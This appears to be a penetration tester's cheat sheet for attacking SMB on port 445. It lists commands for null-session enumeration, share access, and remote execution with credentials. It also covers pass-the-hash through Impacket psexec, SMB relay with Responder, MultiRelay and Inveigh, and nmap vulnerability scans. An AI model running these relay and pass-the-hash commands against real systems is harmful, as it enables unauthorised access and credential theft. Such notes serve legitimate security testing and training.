 # 445 - SMB

## Check for null sessions

```
crackmapexec smb 192.168.120.0/24 10.0.0.0/23 -u '' -p ''
```

```
enum4linux <ip>
```

WinscanX - windows tool: [https://packetstormsecurity.com/files/84199/WinScanX-Password-Utility.html](https://packetstormsecurity.com/files/84199/WinScanX-Password-Utility.html)

## Connecting to SMB Shares

### List SMB shares

```
smbclient -L [IP]
```

### Connect to smb share

```
smbclient \\\\[ip]\\[share name]
```

`rpcclient -U "" -N [ip]`

`enum4linux -a <ip>`

```
/usr/bin/winexe -U mad01/user123%abcABC1234 //172.18.2.50 ipconfig
```

### Using psexec from Impacket

```
/usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a40cad43aedd6bdddddddddf45 localadmin@192.168.93.19SMB Relay
```

### MultiRelay.py

For SMB Relay to be possible, you must turn off SMB and HTTP within the responder config file (you can change it back when you have finished)

Set responder.conf to:

![](<../../.gitbook/assets/image (5) (1).png>)

Then run responder:

```
sudo python3.9 /usr/share/responder/Responder.py -I eth0 -w -f -v
```

Then run the following in another terminal session

```
sudo python3.9 /usr/share/responder/tools/MultiRelay.py -t <target_IP> -u ALL
```

### Inveigh Relay

Session attack requires SMB tools from Invoke-TheHash

{% embed url="https://github.com/Kevin-Robertson/Invoke-TheHash" %}

```
Invoke-InveighRelay -ConsoleOutput Y -Target 10.0.2.110 -Command "...."
```

## Create an SMB Share

```
sudo impacket-smbserver share . -smb2support
```

## Scan for common vulns

`nmap --script smb-vuln* -p 139,445`
